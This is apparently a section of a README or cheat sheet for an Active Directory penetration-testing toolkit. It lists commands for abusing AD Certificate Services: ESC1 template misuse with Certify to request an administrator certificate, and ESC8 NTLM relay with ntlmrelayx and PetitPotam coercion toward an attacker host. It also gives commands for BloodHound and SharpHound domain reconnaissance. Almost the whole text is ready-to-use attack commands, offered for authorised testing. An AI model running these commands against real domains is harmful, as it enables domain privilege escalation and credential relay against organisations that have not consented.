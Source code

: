 
## Certificate Services Attacks

### ESC1 - Misconfigured Certificate Templates

**Manual:**
```bash
# Enumerate certificate templates
certutil -v -template

# Using Certify to find vulnerable templates
Certify.exe find

# Request a certificate
Certify.exe request /ca:CA01.contoso.local\CA /template:VulnerableTemplate /altname:administrator
```

**Automated:**
```bash
# No direct automation for certificate attacks in the current toolset
```

### ESC8 - NTLM Relay to AD CS Web Enrollment

**Manual:**
```bash
# Start NTLM Relay
ntlmrelayx.py -t http://ca.contoso.local/certsrv/certfnsh.asp -smb2support --adcs

# Force authentication (e.g., using Responder, PetitPotam)
PetitPotam.py -d contoso.local -u user -p password attacker-ip ca.contoso.local
```

**Automated:**
```bash
# No direct automation for certificate attacks in the current toolset
```

---

## BloodHound

### Data Collection

**Manual:**
```bash
# Using SharpHound
SharpHound.exe -c All --zipfilename bloodhound.zip

# Using BloodHound.py
bloodhound-python -u username -p password -d contoso.local -ns 192.168.1.100 -c All
```

**Automated:**
```bash
# Using AD Pentest Toolkit
./adpentest-toolkit.py bloodhound -t 192.168.1.100
```
